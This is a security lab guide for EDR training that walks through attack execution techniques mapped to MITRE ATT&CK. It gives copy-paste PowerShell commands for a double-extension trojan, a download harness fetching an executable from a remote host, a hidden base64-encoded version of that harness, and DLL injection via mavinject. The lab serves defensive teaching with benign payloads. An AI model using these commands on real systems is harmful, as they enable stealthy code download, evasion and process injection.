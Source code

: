 ```yaml
---
Title: ATT&CK - Execution Phase
Description: Demonstrate the execution phase of an attack
Author: Chris Gerritz, Datto
Created: 04/07/2025
Achievements:
Duration: 20
Range:
- Windows
Applications:
- Terminal (Command prompt)
- PowerShell
- Datto EDR
- SysInternals
- Office
- Adobe Reader
External:
- attack.mitre.org
- rightofboom.infocyte.com
- live.sysinternals.com/psexec.exe
- github.com/redcanaryco/atomic-red-team/raw/master/atomics/T1055.001/src/x64/T1055.001.dll
---
```


## Description

The purpose of these labs is to introduce post-compromise attack behaviors and EDR defenses. 

Lab 2 will demonstrate a post-compromise execution phase of an attack where initial exploits have already granted privileged access to the target system and now you need to execute some commands and download/execute additional malware payloads.

Typically, the 'Initial Execution' will be a very small command called a download harness and this is executed in one of two ways:
1. Via an exploit of a vulnerable application
2. Via an internal user through social engineering

In order to grant the attacker additional functionality such as recon, lateral movement or ransomware staging, they will need to inject a more feature rich malware type called a Remote Access Tool (aka a "RAT") following that initial execution. This follow on execution will utilize administrative commands which we can detect during behavioral monitoring.

---

## Objectives
<!--
- List all objectives for this lab
- Need at least three objectives
- Use blooms taxonomy verbs: KNOWLEDGE,UNDERSTAND, APPLY, ANALYZE, EVALUATE, CREATE
- https://www.teachthought.com/critical-thinking/blooms-taxonomy-verbs-2/
-->
1. Understand the initial steps of an attack that uses staged malware
2. Demonstrate some execution techniques to get initial trojans or follow-on malware payloads to run

## Requirements

|                  |                             |
|------------------|-----------------------------|
| **Range**        | Windows |
| **Applications** | All applications needed     |
| **Needed Files** | None |


## Preparation Instructions

Ignore this if you already ran it in a previous lab and are re-using the same Powershell window.

1. Open powershell as an administrator
	- Right click Powershell
	- Click "Run as Administrator"
2. Prepare the enviroment with some variables we will use later
	- Copy and paste this command into the terminal:
	```PowerShell
	#Define a random number (This will be used to force Datto EDR not to deduplicate repeated commands during testing)
	$n = 1000+$(Get-Random -Max 999)
	# Bypass signed script controls
	Set-ExecutionPolicy -Scope CurrentUser -ExecutionPolicy Bypass -Force

	```
-----
## Instructions

For each of these labs, you will need your Powershell window open. You can use the same window for all labs. You will be copying and pasting commands into the terminal and then evaluating the output.

w> All labs require you to be running as an administrator. 



### 1. Double Extension Execution
> *Initial execution is often through a social engineering attack. This first technique hides an executable as a pdf file. The hope is the user will download this file and double click it to see what it is. When they do, our trojan will execute and give us a (simulated) callback where we can tell it to run additional commands.*

Execute a file with a **Double Extension**. 
- MITRE ATT&CK Technique: [ATT&CK T1204.002 - Execution - User Execution: Malicious File](https://attack.mitre.org/techniques/T1204/002)
- MITRE ATT&CK Technique: [ATT&CK T1036.007 - Evasion - Masquerading: Double File Extension](https://attack.mitre.org/techniques/T1036/007)
- Copy and paste this command into the terminal:
	```PowerShell
	# Double Extension
	Write-Host -ForegroundColor Cyan "Initiating a T1204.002 - Malicious File Extension with Double Extension evasion"
	$MalwarePath = "C:\Windows\System32\calc.exe"
	$TrojanPath = "$Env:USERPROFILE\Desktop\freemoney.pdf.exe"

	Copy-Item -Path $MalwarePath -Destination $TrojanPath -Force
	Get-Item $TrojanPath
	Write-Host -ForegroundColor Cyan "Go ahead and double click freemoney.pdf on your desktop"
	```
- Next, go to your desktop and double click freemoney.pdf and see what happens.


### 2. Powershell Download Harness
> *The following method is used by some malware to download and execute an additional file using Powershell. This is the simplest way to do this and often used legitimatly so the technique can blend the malicious action in with existing noise produced by admins.*

Execute a simple **Powershell Download Harness**. 
- MITRE ATT&CK Technique: [ATT&CK T1059.001 - Execution - Command and Scripting Interpreter](https://attack.mitre.org/techniques/T1059/001)
- Copy and paste this command into the terminal:
	```PowerShell
	# Powershell Download Hardness
	Write-Host -ForegroundColor Cyan "Initiating a T1059.001 - Powershell Download Harness"
	$url = "https://live.sysinternals.com/psexec.exe"
	$filename = "$env:TEMP\bad.exe"

	$cmd = "(new-object System.Net.WebClient).DownloadFile('$url', '$filename'); Start-Sleep -m $n"
	Write-Host -ForegroundColor Cyan "Running Command:"
	Write-Host -ForegroundColor Green "Powershell.exe -command '$cmd'"
	Powershell.exe -command $cmd

	Get-Item $filename
	```


### 3. Hidden & Encoded Powershell Download Harness
> *Most attackers aren't going to want you seeing the command or the powershell window poping up so they will use obfuscation and stealth techniques with this.*

Execute it again, but this time as a **Hidden & Encoded Powershell Download Harness**. 
- MITRE ATT&CK Technique: [ATT&CK T1059.001 - Execution - Command and Scripting Interpreter](https://attack.mitre.org/techniques/T1059/001)
- MITRE ATT&CK Technique: [ATT&CK T1027 - Evasion - Obfuscated Files or Information](https://attack.mitre.org/techniques/T1027)
- Copy and paste this command into the terminal:
	```PowerShell
	# Encoded and Hidden Powershell Download Harness
	Write-Host -ForegroundColor Cyan "Initiating a T1059.001 - Powershell Encoded and hidden Download Harness"
	$EncodedCommand = [Convert]::ToBase64String([System.Text.Encoding]::Unicode.GetBytes($Cmd)
	)
	Write-Host -ForegroundColor Cyan "Running Command:"
	Write-Host -ForegroundColor Green "powershell.exe -win H -NoP -e '$EncodedCommand'"
	powershell.exe -win H -NoP -e $EncodedCommand
	```

w> This will hide your browser, you may need to open a new browser after performing this command.


### 4. System Binary Proxy Execution
> *One method to evade antivirus is to force a legitimate system application to run the attacker's code/malware on the attacker's behalf. A common method is to inject the malware's code as a library into the memory of a system process.*
>
> *The method we'll demonstrate today is a Microsoft utility called `mavinject`.  Mavinject.exe is the **Microsoft Application Virtualization Injector**, a Windows utility that can inject code into external processes as part of Microsoft Application Virtualization (App-V). This utility is installed by default on most modern Windows versions but shouldn't really be used unless App-V is in use.*

1. Use mavinject.exe to perform a **System Binary Proxy Execution** technique
- [ATT&CK T1218.013 - Defense Evasion - Signed Binary Proxy Execution](https://attack.mitre.org/techniques/T1218/013)
- [ATT&CK T1055.001 - Defense Evasion - Process Injection: Dynamic-link Library Injection](https://attack.mitre.org/techniques/T1055/001)
- Copy and paste this command into the terminal:
	```PowerShell
	$n = 1000+$(Get-Random -Max 999)
	# Signed Binary Proxy Execution w/ mavinject.exe
	Write-Host -ForegroundColor Cyan "Initiating a T1218.013 - Signed Binary Proxy Execution using mavinject.exe"
	$malwareURL = "https://github.com/redcanaryco/atomic-red-team/raw/master/atomics/T1055.001/src/x64/T1055.001.dll"
	# start and inject into notepad or calc
	$targetProcessName = "notepad"
	$cmd = @"
		`$targetProcessId = (Start-Process $targetProcessName -PassThru).id
		Invoke-WebRequest $malwareURL -OutFile "$env:temp\T1055.001.dll"
		mavinject `$targetProcessId /INJECTRUNNING $env:temp\T1055.001.dll
		Start-Sleep -m $n
	"@
	powershell.exe -nop -command $cmd
	```

	s> If you are successful, the code we are injecting will force notepad to run a popup that says "Locked and Loaded".